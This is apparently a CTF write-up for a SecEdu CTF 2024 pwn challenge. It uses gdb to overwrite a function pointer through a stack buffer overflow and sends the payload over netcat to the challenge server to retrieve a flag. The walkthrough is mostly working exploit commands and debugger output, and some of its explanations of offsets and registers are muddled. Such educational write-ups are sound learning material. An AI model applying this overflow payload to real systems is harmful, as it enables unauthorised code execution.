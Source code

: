 ```yaml
---
title: "Overflowing with files"
description: "They also seem to have quite an interesting top-secret file delivery system, developed in C of all things?! Find a way to get the contents of the top-secret document.\n\n`nc chals.secedu.site 5001`"
pubDate: 2024-09-12
ctf: "SecEdu CTF 2024"
category: "pwn"
author: "sealldev & finnersio"
section: "CTFs"
image: "images/24-secedu/icon.png"
---
```




From the challenge description we know the program was written in C, and we can analyse the program in gdb.

Running the program we see the top-secret document is at the memory address `0x4011f6`.
```bash
./chal
Welcome to ORG-A's epic "File distribution system"! Here is the address of the function that contains the top-secret documents: 0x4011f6
Please don't visit this, okay?
Response
```

Loading up gdb, we can run `info functions` to see what symbols are left in the binary. We see among others a function called `win` at `0x4011f6`, we know where we need to get to.
```c
gdb chal
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
...
0x00000000004011f6  win
0x0000000000401268  exiting
0x0000000000401282  main
...
```

Taking a look at the main function, there's not much we care about until towards the end:

```c
# Note I am using intel disassembly flavor, not AT&T
0x00000000004012f6 <+116>:	call   0x401100 <__isoc99_scanf@plt>
0x00000000004012fb <+121>:	mov    rax,QWORD PTR [rbp-0x10]
0x00000000004012ff <+125>:	mov    rsi,rax
0x0000000000401302 <+128>:	lea    rax,[rip+0xe37]        # 0x402140
0x0000000000401309 <+135>:	mov    rdi,rax
0x000000000040130c <+138>:	mov    eax,0x0
0x0000000000401311 <+143>:	call   0x4010c0 <printf@plt>
0x0000000000401316 <+148>:	mov    rax,QWORD PTR [rbp-0x10]
0x000000000040131a <+152>:	call   rax
0x000000000040131c <+154>:	mov    eax,0x0
0x0000000000401321 <+159>:	leave
0x0000000000401322 <+160>:	ret
```

We see a call to `scanf` to capture the user's input, and another call to `prinf`.  But we also see the return address (`rax`) being assigned to a value offset of the base pointer (`rbp`).

```c
0x0000000000401316 <+148>:	mov    rax,QWORD PTR [rbp-0x10]
```

Let's see how our data is being stored in the program, we will set a breakpoint at the statement above.

```c
(gdb) break *main+152
Breakpoint 1 at 0x40131a
(gdb) r
Starting program: 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Welcome to ORG-A's epic "File distribution system"! Here is the address of the function that contains the top-secret documents: 0x4011f6
Please don't visit this, okay?
Response: AAAAAAAAAAAAAAAAAAA
Okay, you know what? Lets go to 0x401268!!
 Andddd.... here we go!


Breakpoint 1, 0x000000000040131a in main ()
```

Looking at the stack pointer, we see our input and we know it is being stored on the stack. Let's see if we can overflow the buffer and change `rax` to the secret-document address.
```c
(gdb) x/s $rsp
0x7fffffffe090:	'A' <repeats 19 times>
```

From the below we know an 8 byte value (`QWORD PTR`) is being loaded into `rax` from `rbp-0x16` (`rbp - 16 bytes`).
```c
0x0000000000401316 <+148>:	mov    rax,QWORD PTR [rbp-0x10]
```

Craft a payload 16 bytes long with an extra byte at the end for the new address for `rax`.

```bash
python3 -c 'print("a"*8*16 + "A"*8)'
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaAAAAAAAA
```

Run the program again.
```c
Breakpoint 1, 0x000000000040131a in main ()
(gdb) x/s $rsp
0x7fffffffe090:	'a' <repeats 128 times>, "AAAAAAAA"
(gdb) p/x $rax
$2 = 0x4141414141414141
```

It worked! `rax` is all "A" (0x41 in hex). Let's make the payload the actual address of the secret document. Unfortunately, `0x4011f6` isn't all printable characters so we will need a file for our payload. 

```bash
echo -ne 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xf6\x11\x40' > payload.txt
```

We will use `echo` to save the non-printable characters to a file and load the address in reverse order as we are on a little-endian system.

Run the program with the file as input:
```c
(gdb) r < payload.txt
...
Response: Okay, you know what? Lets go to 0x4011f6!!
 Andddd.... here we go!

Awesome work, here is the only top secret file, obvious employee:
```

We have the secret file, now to do it for real with netcat. 

```
Welcome to ORG-A's epic "File distribution system"! Here is the address of the function that contains the top-secret documents: 0x4011bd
Please don't visit this, okay?
Response: s
Okay, you know what? Lets go to 0x40122b!!
 Andddd.... here we go!

Nothing found here, but thanks for stopping by!
```

We know the program, and we know the buffer. This time we are going to `0x4011bd`. Make a new payload, and send the file with netcat along with the `-q` to quit the transmission after one second.

```bash
cat payload.txt | nc -q 1 chals.secedu.site 5001
Welcome to ORG-A's epic "File distribution system"! Here is the address of the function that contains the top-secret documents: 0x4011bd
Please don't visit this, okay?
Response: Okay, you know what? Lets go to 0x4011bd!!
 Andddd.... here we go!

Awesome work, here is the only top secret file, obvious employee:
SECEDU{h0w_c4n_u_0v3rfl0w_with_0n3_f1le?}
```

Flag: `SECEDU{h0w_c4n_u_0v3rfl0w_with_0n3_f1le?}`